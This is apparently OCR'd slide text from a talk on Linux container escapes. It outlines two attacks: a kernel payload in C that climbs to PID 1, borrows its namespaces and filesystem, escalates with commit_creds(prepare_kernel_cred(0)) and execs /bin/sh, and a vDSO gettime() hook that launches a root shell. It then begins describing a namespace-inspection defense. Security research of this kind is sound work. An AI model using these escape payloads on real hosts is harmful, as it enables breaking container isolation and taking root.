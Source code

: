 --

## Exploit

1. get into kernel
1. collect the kernel symbols
1. loop back to the parent of process
1. mount the initialization fs to container fs
1. convert the container namespace to the host

```c
struct task_struct *task= get_current();
while(task -> pid != 1){
    task = task->real_parent;
}
init_nsproxy = task->nsproxy;
init_fs = task->fs;
struct task_struct *tsk= get_current();
daemonize_fs_struct();
switch_task_namespaces(tsk, init_proxy);
commit_creds(prepare_kernel_cred(0));
execv("/bin/sh", NULL);
```

--

## Modifying Shared Memory

The "vDSO"(virtual dynamic shared object) is a small shared libarary that the kernel automatically maps into the address space of all user-space applications.

--

## Exploit

1. vulnerability can modify vDSO address
1. write shellcode address to vDSO
1. hook gettime()
1. shellcode check root privileged
   1. root -> launch a shell to get root
   1. else -> call gettime as normally

---

## A Defense Method Based on Namespaces Status Inspection

--

## Definitions

- Pid: the process ID.
- Nsid: the relative namespaces tag of the process.
- Pname: name of the process.
- Process: a struct of processes in the container including the members of pid,nsid,Pname.
- Container: a struct including the members Container_Process, Container_Init_Process which is process and initialization process of the container.
